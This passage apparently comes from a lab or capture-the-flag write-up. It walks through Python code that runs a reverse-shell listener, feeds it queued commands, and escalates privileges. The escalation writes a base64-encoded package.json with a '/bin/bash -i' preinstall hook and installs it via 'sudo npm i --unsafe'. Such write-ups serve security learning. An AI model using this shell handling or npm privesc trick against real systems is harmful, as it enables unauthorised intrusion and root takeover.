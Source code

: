         #Receive data from the target and execute commands
        ans = conn.recv(1024).decode()
        if commands:
            command = commands[0]
            commands = commands[1:]
            if not commands: #If this command is the last command
                sleepTime = 5 #Wait 5 seconds to ensure that all commands have been fully exectued before getting>
        else:
            sys.stdout.write(ans)
            command = input()
            #Remove the output of the "input()" function
            sys.stdout.write("\033[A\033[F"+ans.split("\n")[-1])

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(sleepTime) #Wait a second before retreiving the output of the command
        sleepTime = defaultSleepTime
{% endhighlight %}
The `commands` parameter can be used to run a list of commands after obtaining a shell but before handing the shell to the user, making it ideal for automated privilege escalation. This is implemented with an if statmeent on line 23 to 28. This if statement simply checks if the `commands` list is not empty and sets the command to execute to the first command in the list. If the list only contains one element, it also waits for 5 seconds to ensure that the execution of the commands is terminated before handing the shell to the user.

{% highlight python linenos %}
thread3 = threading.Thread(target=executeRevShell,args=(URLBASE,LHOST,rsLock,headers))
thread3.start()
{% endhighlight %}
Next, we start Thread 3 and instruct it to execute the `executeRevShell` function. We provide it with the `rsLock` lock so that we can inform it when the listener is ready. In addition, we provide it with the `headers` dictionary which contain the admin user's session cookie and a valid `User-Agent` header.

The last step is to prepare a list with privilege escalation commands and start a listener with this commands, as performed above. We can get the base64 representation of the `package.json` file by executing `cat package.json | base64 -w 0`. We place this base64 encoded data in a variable named `packageJSON`. Then, we create a list containing the privilege escalation commands we saw in the previous section. The only difference is that we add the command `echo '[base64]' | base64 -d > privescPackage/package.json`, where `[base64]` is the base64 encoded content of the `package.json` file. This command will write the package.json file to disk on the target host.

{% highlight python linenos %}
packageJSON = "ewogICJuYW1lIjogInByaXZlc2NQYWNrYWdlIiwKICAidmVyc2lvbiI6ICIxLjAuMCIsCiAgIm1haW4iOiAiaW5kZXguanMiLAogICJzY3JpcHRzIjogewogICAgInByZWluc3RhbGwiOiAiL2Jpbi9iYXNoIC1pIgogIH0KfQo="
privescCommands = ["mkdir ./privescPackage","echo '" + packageJSON + "' | base64 -d > privescPackage/package.json","sudo npm i privescPackage --unsafe"]
listener(LHOST,int(LPORT),mutex=rsLock,commands=privescCommands)
{% endhighlight %}

Finally, we call the listener function to start a listener for the reverse shell payload. We provide it with the privilege escalation commands which it will automatically execute before becoming interactive. In addition, we provide it with the lock rsLock which the function will release when it has started listening on the reverse shell IP and port. At this point, we are done! The final code can be found in the next section.
